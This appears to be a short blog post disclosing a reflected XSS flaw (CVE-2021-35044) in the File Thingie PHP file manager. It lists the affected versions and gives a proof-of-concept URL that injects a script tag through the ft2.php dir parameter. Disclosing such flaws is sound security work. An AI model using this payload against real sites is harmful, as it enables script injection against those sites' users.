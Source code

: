 ```yaml
---
layout: default
title: A day of fame
parent: Blog
nav_order: 2
---
```


# A day of fame
{: .fs-9 }

File Thingie - XSS Reflected
{: .fs-6 .fw-300 }

---

### Description

File Thingie is a PHP File Manager. It is affected by XSS Reflected via the ft2.php dir parameter.

The versions affected are v2.0, v2.0.8, v2.5.0, v2.5.2, v2.5.3, v2.5.4, v2.5.5, v2.5.6, v2.5.7

### PoC
```yaml
https://example.com/ft2.php?dir=</script><script>alert(1)</script>
```

### Reference

[CVE-2021-35044](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-35044)
